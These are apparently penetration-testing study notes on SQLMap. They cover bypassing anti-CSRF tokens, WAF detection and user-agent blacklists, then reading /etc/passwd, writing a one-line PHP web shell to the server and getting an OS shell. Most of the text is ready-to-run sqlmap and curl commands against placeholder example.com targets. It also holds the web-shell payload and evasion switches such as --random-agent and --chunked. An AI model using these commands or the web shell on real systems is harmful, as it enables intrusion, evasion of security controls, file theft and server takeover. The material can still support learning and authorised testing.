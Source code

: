 ## Bypassing Web Application Protections
- One of the first lines of defense against the usage of automation tools is the incorporation of anti-CSRF (i.e., Cross-Site Request Forgery) tokens into all HTTP requests, especially those generated as a result of web-form filling. Nevertheless, SQLMap has options that can help in bypassing anti-CSRF protection. Namely, the most important option is --csrf-token.
- `sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"`
- In some cases, the web application may only require unique values to be provided inside predefined parameters. Such a mechanism is similar to the anti-CSRF technique described above, except that there is no need to parse the web page content, use `--randomize`: `sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI`
- Another similar mechanism is where a web application expects a proper parameter value to be calculated based on some other parameter value(s). Most often, one parameter value has to contain the message digest (e.g. h=MD5(id)) of another one. To bypass this, the option `--eval` should be used: `sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI`
- Use `--proxy` for anonymity through a proxy
- Whenever we run SQLMap, As part of the initial tests, SQLMap sends a predefined malicious looking payload using a non-existent parameter name (e.g. ?pfov=...) to test for the existence of a WAF (Web Application Firewall). 
- In case of immediate problems (e.g., HTTP error code 5XX from the start) while running SQLMap, one of the first things we should think of is the potential blacklisting of the default user-agent used by SQLMap (e.g. User-agent: sqlmap/1.4.9 (http://sqlmap.org)). This is trivial to bypass with the switch `--random-agent`, which changes the default user-agent with a randomly chosen value from a large pool of values used by browsers.
- Out of other protection bypass mechanisms, there are also two more that should be mentioned. The first one is the Chunked transfer encoding, turned on using the switch `--chunked`, which splits the POST request's body into so-called "chunks." Blacklisted SQL keywords are split between chunks in a way that the request containing them can pass unnoticed.
- SQLMap has the ability to utilize an SQL Injection to read and write files from the local system outside the DBMS. SQLMap can also attempt to give us direct command execution on the remote host if we had the proper privileges.
- Check for DBA privs: `sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba`
- Read local files: `sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"` then `cat ~/.sqlmap/output/www.example.com/files/_etc_passwd`

## Writing local files (ie shell)
- When it comes to writing files to the hosting server, it becomes much more restricted in modern DMBSes, since we can utilize this to write a Web Shell on the remote server, and hence get code execution and take over the server.
- This is why modern DBMSes disable file-write by default and need certain privileges for DBA's to be able to write files. 
- Still, many web applications require the ability for DBMSes to write data into files, so it is worth testing whether we can write files to the remote server. To do that with SQLMap, we can use the --file-write and --file-dest options. 
- Basic php shell `echo '<?php system($_GET["cmd"]); ?>' > shell.php`
- Write this file to server: `sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"`
- Access script: `curl http://www.example.com/shell.php?cmd=ls+-la`
- SQLMap can do this for you - `sqlmap -u "http://www.example.com/?id=1" --os-shell` | `sqlmap -u "http://www.example.com/?id=1" --os-shell --technique=E`
- If it fails try different letters of the acronym at the top





